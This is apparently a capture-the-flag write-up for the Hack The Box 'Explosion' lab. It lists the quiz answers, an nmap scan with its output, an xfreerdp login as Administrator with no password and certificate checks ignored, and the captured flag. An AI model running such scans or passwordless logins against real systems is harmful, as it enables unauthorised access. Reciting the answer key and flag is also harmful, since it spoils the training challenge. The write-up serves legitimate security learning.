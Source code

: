 # Explosion
* Source: [Hack the Box](https://hackthebox.com/)
* Challenge: Explosion
* Topic: Account Misconfiguration, xfreerdp
* Difficulty: Very easy
* Date: 15-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Tasks
1. What does the 3-letter acronym RDP stand for?
 - **remote desktop protocol**
2. What is a 3-letter acronym that refers to interaction with the host through a command line interface?
- **cli**
3. What about graphical user interface interactions? 
- **gui**
4. What is the name of an old remote access tool that came without encryption by default? 
- **telnet**
5. What is the concept used to verify the identity of the remote host with SSH connections?
- **public-key cryptography**
6. What is the name of the tool that we can use to initiate a desktop projection to our host using the terminal?
- **rdesktop**
7. What is the name of the service running on port 3389 TCP? 
- **ms-wbt-server**
8. What is the switch used to specify the target host's IP address when using xfreerdp?
- **/v:**

---
## Flag:
First, we need to scan the target with `nmap`.

Command:

`nmap -n -sC -sV 10.129.92.232`

`-n`: No DNS look up (Good [OPSEC](https://en.wikipedia.org/wiki/Operations_security)).

`-sC`: Run scripts during scan.

`-sV`: Try to detect the version of running services.

```console
┌──(kali㉿kali)-[~]
└─$ nmap -n -sC -sV 10.129.92.232 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-15 13:50 EDT
Nmap scan report for 10.129.92.232
Host is up (0.069s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: EXPLOSION
|   NetBIOS_Domain_Name: EXPLOSION
|   NetBIOS_Computer_Name: EXPLOSION
|   DNS_Domain_Name: Explosion
|   DNS_Computer_Name: Explosion
|   Product_Version: 10.0.17763
|_  System_Time: 2022-04-15T17:50:27+00:00
| ssl-cert: Subject: commonName=Explosion
| Not valid before: 2022-04-14T17:49:40
|_Not valid after:  2022-10-14T17:49:40
|_ssl-date: 2022-04-15T17:50:35+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-04-15T17:50:31
|_  start_date: N/A

Nmap done: 1 IP address (1 host up) scanned in 22.03 seconds
```

We can use [xfreerdp](https://linux.die.net/man/1/xfreerdp) to connect to the host.

Command:

`xfreerdp /v:10.129.92.232 /u:Administrator /cert:ignore`

`/v:`: The host we want to connect to.

`/u:`: The user we want to log in as.

`/cert:`: Ignore all kind of certificates.

```console
┌──(kali㉿kali)-[~]
└─$ xfreerdp /v:10.129.92.232 /u:Administrator /cert:ignore
Password: 
[10:18:16:687] [89007:89008] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[10:18:16:687] [89007:89008] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_RGB16
[10:18:16:733] [89007:89008] [INFO][com.freerdp.channels.rdpsnd.client] - [static] Loaded fake backend for rdpsnd
[10:18:19:505] [89007:89008] [INFO][com.freerdp.client.x11] - Logon Error Info LOGON_FAILED_OTHER [LOGON_MSG_SESSION_CONTINUE]
^C[10:21:06:676] [89007:89007] [ERROR][com.freerdp.utils] - Caught signal 'Interrupt' [2]
[10:21:06:677] [89007:89007] [ERROR][com.freerdp.utils] - 0: /lib/x86_64-linux-gnu/libwinpr2.so.2(winpr_backtrace+0x50) [0x7f32435efc30]

(...)
```

A new window appears. We've connected to a computer running Windows Server 2019.

The flag is visible on the desktop.

![](./attachments/Pasted%20image%2020220415162356.png)

**Flag:** `951fa96d7830c451b536be5a6be008a0`

---
**Tags:** [[HackTheBox]]